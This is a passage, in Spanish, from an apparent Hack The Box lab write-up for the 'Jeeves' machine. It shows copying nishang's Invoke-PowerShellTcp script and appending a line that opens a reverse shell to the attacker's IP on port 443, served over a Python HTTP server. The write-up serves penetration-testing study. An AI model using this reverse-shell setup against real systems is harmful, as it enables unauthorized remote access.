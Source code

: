 ![](/assets/images/htb-jeeves/jeeves-cmd.png)

Ahora debemos ingresar al sistema, por lo que buscamos el archivo `Invoke-PowerShellTcp` en nuestra máquina y lo copiamos a nuestro directorio de trabajo

```bash
❯ locate Invoke-PowerShellTcp
/usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1
/usr/share/nishang/Shells/Invoke-PowerShellTcpOneLine.ps1
/usr/share/nishang/Shells/Invoke-PowerShellTcpOneLineBind.ps1
❯ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 PS.ps1
```

Y agregamos al final del archivo la siguiente linea

```bash
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.17 -Port 443
```

Nos compartimos un servidor HTTP con python, nos ponemos en escucha a través del puerto 443 y nos entablamos una reverse shell:

